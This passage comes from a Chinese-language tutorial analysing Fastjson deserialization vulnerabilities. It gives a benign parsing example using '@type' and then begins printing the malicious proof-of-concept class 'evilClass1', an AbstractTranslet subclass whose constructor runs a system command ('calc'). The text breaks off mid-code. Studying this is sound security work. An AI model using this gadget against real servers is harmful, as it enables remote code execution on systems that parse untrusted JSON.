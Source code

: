 Students 有一个公有属性 name 和一个私有属性 age。下面使用一个测试类，将 json 字符串反序列化成 Student 对象，learnFJ.java：

```
package ka1n4t.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.JSONObject;

public class learnFJ {
    public static void main(String args[]) {
        String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
        Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
        System.out.println(obj1.getName());
    }
} 
```

结果：

![image](img/85ce8c741d4f14c97d808f4ea97e4efa.png)

### 0x02 原理分析

#### 分析 POC

先看一下用于反序列化的恶意类 evilClass1.java:

```
package ka1n4t.poc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public evilClass1() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    public static void main(String[] args) throws IOException {
        evilClass1 helloworld = new evilClass1();
```